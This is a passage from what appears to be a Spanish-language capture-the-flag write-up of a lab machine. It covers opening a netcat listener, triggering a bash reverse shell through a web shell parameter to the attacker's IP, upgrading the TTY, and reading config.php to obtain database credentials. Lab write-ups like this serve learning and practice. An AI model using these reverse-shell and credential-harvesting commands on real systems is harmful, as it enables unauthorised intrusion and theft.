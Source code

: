 ```
# nc -nlvp 443
```

Nos mandamos una `reverse shell` a nuestro equipo

```
# http://10.129.250.24/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.15/443 0>%261"
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.250.24] 43028
sh: 0: can't access tty; job control turned off
$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya tenemos un `consola` completamente `interactiva`

```
www-data@validation:/var/www/html$ whoami
www-data
```
## Privilege Escalation

Lo siguiente que hacemos es `inspeccionar` el `config.php` que hemos encontrado y encontramos las `credenciales` del `usuario` uhc a la base de datos

```
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
